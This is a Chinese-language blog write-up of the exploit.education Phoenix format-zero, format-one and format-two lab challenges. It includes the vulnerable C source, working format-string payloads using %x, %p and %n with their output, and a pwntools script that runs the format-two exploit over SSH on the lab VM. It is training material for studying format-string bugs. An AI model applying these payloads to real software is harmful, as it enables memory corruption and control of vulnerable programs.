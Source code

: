 ```yaml
---
title: "[pwn笔记4]format-zero,format-one,format-two(phoenix)"
urlname: "pwn4"
date: 2023-05-03 17:07:24
tags: [pwn, format]
---
```

 新的章节讲的是利用格式化字符串漏洞的故事。
 format-two全是x86的题解，找了半天才在一个评论区里找到如何回避x86_64下\x00的坑
## format-zero
### 本题源码

```c
/*
 * phoenix/format-zero, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * 0 bottles of beer on the wall, 0 bottles of beer! You take one down, and
 * pass it around, 4294967295 bottles of beer on the wall!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

### solve

用15位的格式字符串，产生32位以上的输出，就可以覆盖到changeme。

c的可变参数是存在栈上的，对参数个数没有任何校验。所以我们直接搞一堆数字出来就行了。

```
user@phoenix-amd64:~$ python -c "print('%x'*15)"|/opt/phoenix/amd64/format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

用gdb看一下内存里格式化出了个什么：

```
(gdb) p (char*)0x00007fffffffe650
$4 = 0x7fffffffe650 "ffffe640f7ffc546712e712ea0a0a0affffe6d8078257825"
```

有48位呢

啊啊啊突然想起可以用"%32x"。。。。（为什么32位够呢，因为输入末尾有个\n）

## format-one

把changeme改成固定的0x45764f6c。只要在上一题的基础上接一个就行。

```
user@phoenix-amd64:~$ python -c "from pwn import *;print('%32x'+p64(0x45764f6c))"|/opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

p64用来把64位整数打包成bytes。

## format-two

### 源码

```c
/*
 * phoenix/format-two, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * What kind of flower should never be put in a vase?
 * A cauliflower.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

### 理论

利用%n将已输出的字节数写入某个地址。

由于这里printf没有后面的参数，就可以写入栈里的某个地址。

首先 我们要找到 栈顶 距 我们可以控制的输入 有多远，然后填入%p，一个%p就可以消耗8字节。

此时x86和x86_64的情况有些不同，x86可以像这样（<https://n1ght-w0lf.github.io/binary%20exploitation/format-two/>）

```
/opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
```
把要写入的地址（changeme的地址）放在最前面，然后根据计算出的栈顶到字符串的距离写%x。
但是，x64的changeme地址末尾有\x00，还像上面那样搞会被截断，不过我们可以像这样：（<https://blog.lamarranet.com/index.php/exploit-education-phoenix-format-two-solution/>的评论区）

```
/opt/phoenix/amd64/format-two $'%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%n\xf0\x0a\x60'
```
每多一个%p字符串增加两字节，但是可以消耗掉栈上的8字节，这就形成了一个追及问题，直到某个数量后，栈上%n下面正好是0x00600af0。
### 坑
bash里拿$(balabala)作为参数时，如果里面有换行，会自动变成两个参数。
### 来点python
```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'%p'*15+b'%n\xf0\x0a\x60'

sh = shell.process(argv=["/opt/phoenix/amd64/format-two", shellcode])

sh.interactive()
```